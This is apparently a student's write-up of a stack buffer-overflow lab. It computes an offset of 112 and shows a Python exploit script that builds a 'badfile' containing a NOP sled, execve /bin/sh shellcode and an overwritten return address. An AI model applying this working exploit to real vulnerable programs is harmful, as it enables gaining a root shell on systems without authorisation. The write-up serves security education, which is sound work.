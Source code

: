 from this observation we can conclude the offset is 108 + 4 = 112. We can use this value in the `exploit.py` script as offset


```python
#!/usr/bin/python3
import sys

shellcode = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 400               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb28+200         # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

i have started at 400th byte in the payload and filled the shellcode with the value available in `call_shellcode.c` file.  

I took the `ebp` value and tried to get to the NOP section to access my shellcode.  Also added the calculated offset.

After that, I ran the exploit.py to fill the badfile to have shellcode in it. 

![](attachment/b4aa68eea60596de00588dc737958f34.png)
